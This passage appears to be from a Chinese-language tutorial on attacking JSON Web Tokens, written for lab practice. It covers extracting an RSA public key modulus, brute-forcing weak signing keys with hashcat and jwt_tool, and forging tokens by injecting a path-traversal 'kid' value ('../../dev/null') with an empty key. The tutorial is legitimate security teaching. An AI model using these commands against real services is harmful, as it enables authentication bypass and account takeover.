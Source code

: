 遇到第一种情况我们需要自己生成一个证书从里面提取出公钥来获取模数，或者通过模数得到公钥。

```python
from Crypto.PublicKey import RSA

with open("publickey.crt", "r") as file:
    key = RSA.importKey(file.read())
    print("n:", hex(key.n))
    print("e:", hex(key.e))
```

第二种情况参见“JWK 中 JKU/X5U 注入”小结生成证书，获取公钥即可。

### 弱密匙

**密匙爆破**

使用对称加密就尝试爆破，只要密钥加密的结果和当前一致就认为密钥相同。爆不爆的出来看命。

爆破工具：

-   John the Rippe
-   Hashcat
-   [c-jwt-cracker](https://github.com/brendan-rius/c-jwt-cracker)
-   [jwt-heartbreaker](https://github.com/wallarm/jwt-heartbreaker)
-   [jwt\_tool](https://github.com/ticarpi/jwt_tool/)

hashcat

```bash
hashcat -a 0 -m 16500 <JWT File> <Dict File>
```

jwt\_tool

```bash
python3 .\jwt_tool.py <JWT> -C -d <Dict>
```

**密匙泄露**

签名算法采用对称加密，通过密钥泄露，通过已知密钥生成签名。密钥泄露点有可能是在 Client 端或源码硬编码，服务端通过某些漏洞读取服务器文件数据得到密钥。

**可以指定服务器上文件当作密钥来验证**。

```python
python3 jwt_tool.py <JWT> -I -hc kid -hv "../../dev/null" -S hs256 -p ""
python3 jwt_tool.py <JWT> -I -hc kid -hv "/dev/null" -S hs256 -p ""
```

### 过于相信传输的数据

跟其他 Web 漏洞一样，如果取其中 JWT 值，不做验证交给其他功能使用，就会产生安全问题。

## 靶场练习

靶场题目大都重复的，只做不重复的题。

### jwt-lab
